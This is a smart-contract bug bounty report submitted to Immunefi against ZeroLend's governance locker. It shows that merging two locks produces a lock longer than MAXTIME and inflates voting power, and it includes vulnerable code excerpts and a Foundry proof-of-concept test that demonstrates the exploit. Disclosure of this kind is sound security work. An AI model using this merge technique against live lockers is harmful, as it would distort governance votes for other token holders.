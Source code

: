 # 28892 - \[SC - Medium] ZeroLockermerge can make a voting lock last lon...

Submitted on Mar 1st 2024 at 01:23:04 UTC by @jovi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28892

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:

* Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description

I have previously reported an issue called "ZeroLocker:merge can make a voting lock last longer than 4 years" as a primary medium-severity issue at Cantina's contest as there wasn't a voting power calculation function at that codebase. I am reporting it again as the impact at the codebase in Immunefi's scope is higher and presents a significance for the voting mechanics.

## Brief/Intro

The BaseLocker contract allows users to merge two different locks and end up with a lock that has a longer than MAXTIME difference between the end time and start time. This inflates the calculation of voting power for locks and give them an unfair advantage on governance.

## Vulnerability Details

The merge method enables a user to bypass the MAXTIME requirement by creating two different locks that last MAXTIME, one at Time0 and the second one some time later at Time1 then merging with the first lock as the merge target (or **to** argument) at the merge call:

```solidity
function merge(uint256 _from, uint256 _to) external override {
```

As the merge function at the BaseLocker contract does not check whether the end minus the locked0.start is not greater than MAXTIME, it enables arbitrary-sized lock durations:

```solidity
LockedBalance memory _locked0 = locked[_from];
        LockedBalance memory _locked1 = locked[_to];
        uint256 value0 = uint256(int256(_locked0.amount));
        uint256 end = _locked0.end >= _locked1.end
            ? _locked0.end
            : _locked1.end;

        locked[_from] = LockedBalance(0, 0, 0, 0);

        _burn(_from);
        _depositFor(_to, value0, end, _locked1, DepositType.MERGE_TYPE);
```

The depositFor internal method updates the lock, but it doesn't check the end timestamp and the start timestamp difference either, the only sanity check is in regards to unlockTime != 0:

```solidity
if (_unlockTime != 0) lock.end = _unlockTime;
```

This enables calculatePower to utilize a numerator bigger than MAXTIME, inflating locks amounts voting power:

```solidity
function _calculatePower(
        LockedBalance memory lock
    ) internal view returns (uint256) {
        return ((lock.end - lock.start) * lock.amount) / MAXTIME;
    }
```

## Impact Details

The whole voting mechanics is spoofed as merging allows users to have voting powers bigger than the maximum possible for the amounts deposited. This effectively makes governance a game of merging locks at the last possible moment before a voting start in order to have ever-increasing voting powers.

## References

Snippet in which merge doesn't check the total duration of the lock: https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L180C8-L185C28 CalculatePower internal method: https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L112C4-L117C1

## Proof of concept

### PoC

Set up foundry on hardhat by placing

```solidity
import "@nomicfoundation/hardhat-foundry";
```

at the hardhat.config.ts file. Don't forget to install "@nomicfoundation/hardhat-foundry". Then install foundry at the contracts folder with the following command:

```solidity
forge init --force
```

Install openzeppelin contracts at foundry:

```solidity
forge install Openzeppelin/openzeppelin-contracts@v5.0.1 --no-commit
forge install OpenZeppelin/openzeppelin-contracts-upgradeable --no-commit
```

Place the following code-snippet at the Test.t.sol file inside the test folder:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {console} from "../../lib/forge-std/src/console.sol";
import {StdInvariant} from "../../lib/forge-std/src/StdInvariant.sol";
import {LockerLP} from "../../locker/LockerLP.sol";
import {Test} from "../../lib/forge-std/src/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MintableERC20 is ERC20 {
    address public owner;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "MintableERC20: caller is not the owner");
        _;
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract ZeroLendTest is StdInvariant, Test {

    LockerLP lockerLP;
    MintableERC20  arbitraryToken;
    address user = makeAddr("user");
    address public configurator = makeAddr("configurator");
    uint256 internal WEEK;
    uint256 internal MAXTIME;

    function setUp() public {
        vm.prank(configurator);
        arbitraryToken = new MintableERC20("Arbitrary Token", "ATKN");
        vm.prank(configurator);
        arbitraryToken.mint(user, 1 ether);


        vm.prank(configurator);
        lockerLP = new LockerLP();

        lockerLP.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        WEEK = 1 weeks;
        // MAXTIME is set to 1 year as it is the value set at the initialization of the LockerLP contract
        MAXTIME = 365 * 86400;

    }
 
    function test_poc() public {

        vm.prank(user);
        arbitraryToken.approve(address(lockerLP), 1 ether);

        uint256 unlockTime0 = ((block.timestamp + MAXTIME) / WEEK) * WEEK; // Locktime is rounded down to weeks
        vm.prank(user);
        lockerLP.createLock(0.5 ether, unlockTime0, false);

        // pass some time
        vm.warp(block.timestamp + WEEK);

        uint256 unlockTime1 = ((block.timestamp + MAXTIME) / WEEK) * WEEK - 100; // Locktime is rounded down to weeks
        vm.prank(user);
        lockerLP.createLock(0.5 ether, unlockTime1, false);

        vm.prank(user);
        lockerLP.merge(2, 1);

        (uint256 amountLocked, uint256 end, uint256 start,) = lockerLP.locked(1);
        // check if amount locked is 1 ether
        require(amountLocked == 1 ether, "wrong amount locked");

        // check the difference between the end and the start 
        require(end - start > MAXTIME, "lock duration is not over 1 year");
       
        // check if voting power is bigger than what should be possible
        uint256 maxVotingPower = MAXTIME * amountLocked / MAXTIME;
        uint256 currentVotingPower = (end - start) * amountLocked / MAXTIME;
        require(currentVotingPower > maxVotingPower, "current voting power is not bigger than maximum expected value");
    }

}
```
